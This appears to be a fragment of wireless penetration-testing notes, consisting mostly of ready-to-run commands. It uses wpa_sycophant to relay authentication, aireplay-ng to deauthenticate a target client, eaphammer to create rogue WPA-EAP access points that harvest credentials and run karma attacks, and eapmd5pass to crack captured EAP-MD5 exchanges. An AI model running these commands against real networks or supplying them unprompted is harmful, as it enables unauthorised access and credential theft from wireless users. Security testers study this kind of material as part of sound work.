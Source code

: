 Run with
``./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan1``

#### wlan2
Deauth a client connected to the target network so that it (hopefully) connects to our rogue AP, which will relay traffic to sycophant
``aireplay-ng -0 4 -a <target BSSID> -c <target client MAC> wlan2``

We should see the connection in sycophant if everything goes well, and then in wlan2 we can do the following to get an IP
``dhclient -v wlan1``


### EAPhammer:
Tool to create fake APs
```bash
./eaphammer -i wlan1 --channel 6 --auth wpa-eap --essid DefenseConference --creds

# karma attack, make every client believe that we are the AP(s) that he is probing. The difference between karma attack and evil twin is that karma uses the probe requests sent by clients (from their preferred network list, PNL) and in evil twin we must guess the APs they want to connect to
./eaphammer -i wlan1 --channel 6 --auth wpa-eap --essid DefenseConference --creds --karma
```

### EAP MD5 crack
``./eapmd5pass -w dict -r eapmd5-sample.dump``


